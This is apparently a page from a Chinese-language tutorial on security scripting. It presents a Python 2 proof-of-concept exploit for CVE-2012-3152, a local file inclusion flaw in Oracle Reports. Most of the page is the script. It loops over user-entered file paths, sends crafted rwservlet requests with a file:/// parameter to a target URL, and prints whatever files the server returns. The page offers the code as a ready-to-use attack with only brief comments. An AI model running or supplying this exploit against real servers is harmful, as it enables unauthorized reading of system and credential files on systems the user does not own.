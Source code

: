 # 用例 3: CVE-2012-3152

# CVE-2012-3152

* * *

这一小段代码是演示的 CVE-2012-3152 Oracle 本地文件包含的漏洞利用 PoC,与前一个 PoC 示例有点类似，也是通过循环可以无限输入需要访问文件目录。对于下面这一段脚本无前面有点不同。增加了一点交互性的东西。通过[termcolor](https://pypi.python.org/packages/source/t/termcolor/termcolor-1.1.0.tar.gz)模块来实现:

```py
#!/usr/bin/python
import sys, urllib2    # 导入需要的包
from termcolor import colored   # 这里需要下载"termcolor"模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确"<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的 URL
print "[+] Attempting CVE-2012-3152 - Oracle Reports LFI"

while True:        #  循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  resource=raw_input(colored("~$ ", "red"))
  req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'+resource+'"'
  try:                    # 使用 Try/Except 处理响应信息
    response=urllib2.urlopen(URL+req)
    # 发起请求并且显示响应内容
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e 
```

![oracle](img/0x15.png)